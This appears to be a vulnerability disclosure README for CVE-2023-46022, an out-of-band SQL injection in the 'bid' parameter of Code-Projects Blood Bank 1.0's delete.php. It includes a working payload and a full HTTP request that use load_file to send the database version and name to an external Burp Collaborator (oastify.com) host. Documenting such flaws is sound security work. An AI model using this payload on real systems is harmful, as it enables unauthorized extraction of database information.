 # CVE-2023-46022-Code-Projects-Blood-Bank-1.0-OOB-SQL-Injection-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://code-projects.org/blood-bank-in-php-with-source-code
# Software Link
+ https://download-media.code-projects.org/2020/11/Blood_Bank_In_PHP_With_Source_code.zip
# Overview
+ Code-Projects Blood Bank V1.0 is exposed to a critical security vulnerability involving Out-of-Band (OOB) SQL Injection through the 'bid' parameter in the /delete.php file. This vulnerability arises due to a lack of proper protection mechanisms, enabling attackers to abuse the parameter and conduct OOB SQL injection attacks via Burp Collaborator. This may result in unauthorized access and extraction of sensitive information from the databases.
# Vulnerability Details
+ CVE ID: CVE-2023-46022
+ Affected Version: Blood Bank V1.0
+ Vulnerable File: /delete.php
+ Parameter Name: bid
+ Attack Type: Local
# Description
+ The 'bid' parameter in the /delete.php file of Code-Projects Blood Bank V1.0 is susceptible to Out-of-Band SQL Injection. This vulnerability stems from inadequate protection mechanisms, allowing attackers to exploit the parameter using Burp Collaborator to initiate OOB SQL injection attacks. Through this technique, an attacker can potentially extract sensitive information from the databases.

# Proof of Concept (PoC) : 
+ Intercept the request to delete.php via Burp Suite
+ Inject the payload to the vulnerable parameters
+ Payload: `3'%2b(select%20load_file(concat('\\\\',version(),'.',database(),'.collaborator-domain\\a.txt')))%2b'`
+ Example request for `bid` parameter

```
---
GET /bloodbank/file/delete.php?bid=3'%2b(select%20load_file(concat('\\\\',version(),'.',database(),'.cuaxacpnxbay7ss8o3csf4bkwb22qtei.oastify.com\\a.txt')))%2b' HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://localhost/bloodbank/bloodinfo.php
Cookie: PHPSESSID=<some-cookie-value>
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
---
```
+ Database and version information was seized via Burp Suite Collaborator
<img width="1447" alt="image" src="https://github.com/ersinerenler/CVE-2023-46022-Code-Projects-Blood-Bank-1.0-OOB-SQL-Injection-Vulnerability/assets/113091631/a75483d8-7a9b-475e-b32c-2a50ac849461">
